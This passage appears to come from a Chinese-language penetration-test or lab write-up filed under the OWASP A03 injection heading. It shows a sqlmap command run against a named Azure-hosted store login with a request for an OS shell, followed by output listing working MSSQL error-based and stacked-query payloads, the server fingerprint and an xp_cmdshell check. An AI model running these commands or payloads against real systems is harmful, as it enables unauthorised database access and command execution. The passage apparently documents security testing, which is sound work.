 http://digiserver2.eastus.cloudapp.azure.com/store/Account/Edit?userId=<14>
```

## A03:2021-注入式攻擊
### Sql Injection
#### OS Shell
```bash!
┌──(root💀kali)-[~]
└─# sqlmap -u "http://digiserver2.eastus.cloudapp.azure.com/store/Account/Login" --method POST --data "Email=admin%40gss.com.tw&Password=123&RememberMe=false" -p "Email,Password" --dbms="MSSQL" --technique USE --batch --banner --os-shell
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.6.7#stable}
|_ -| . [,]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 09:42:27 /2022-08-21/

[09:42:27] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('ASP.NET_SessionId=bxrkv23llmu...d33ju4msnx;VisitStart=2022/8/21 ä...� 09:42:26'). Do you want to use those [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: Password (POST)
    Type: error-based
    Title: Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)
    Payload: Email=admin@gss.com.tw&Password=123' AND 4247 IN (SELECT (CHAR(113)+CHAR(112)+CHAR(118)+CHAR(113)+CHAR(113)+(SELECT (CASE WHEN (4247=4247) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(120)+CHAR(106)+CHAR(118)+CHAR(113)))-- knGZ&RememberMe=false

    Type: stacked queries
    Title: Microsoft SQL Server/Sybase stacked queries (comment)
    Payload: Email=admin@gss.com.tw&Password=123';WAITFOR DELAY '0:0:5'--&RememberMe=false
---
[09:42:28] [INFO] testing Microsoft SQL Server
[09:42:28] [INFO] confirming Microsoft SQL Server
[09:42:29] [INFO] the back-end DBMS is Microsoft SQL Server
[09:42:29] [INFO] fetching banner
[09:42:29] [INFO] resumed: 'Microsoft SQL Server 2008 R2 (SP3-GDR) (KB4532096) - 10.50.6592.0 (X64) \n\tNov 27 2019 02:04:59 \n\tCopyright (c) Microsoft Corporation\n\tStandard Edition (64-bit) on Window...
web server operating system: Windows 7 or 2008 R2
web application technology: ASP.NET, Microsoft IIS 7.5
back-end DBMS operating system: Windows 7 or 2008 R2 Service Pack 1
back-end DBMS: Microsoft SQL Server 2008
banner:
---
Microsoft SQL Server 2008 R2 (SP3-GDR) (KB4532096) - 10.50.6592.0 (X64)
        Nov 27 2019 02:04:59
        Copyright (c) Microsoft Corporation
        Standard Edition (64-bit) on Windows NT 6.1 <X64> (Build 7601: Service Pack 1) (Hypervisor)
---
[09:42:29] [INFO] retrieved: 'C:\\Program Files\\Microsoft SQL Server\\MSSQL10_50.MSSQLSERVER\\MSSQL\\Log\\ERRORLOG'
[09:42:29] [INFO] testing if current user is DBA
[09:42:29] [INFO] checking if xp_cmdshell extended procedure is available, please wait..
[09:42:39] [WARNING] reflective value(s) found and filtering out
```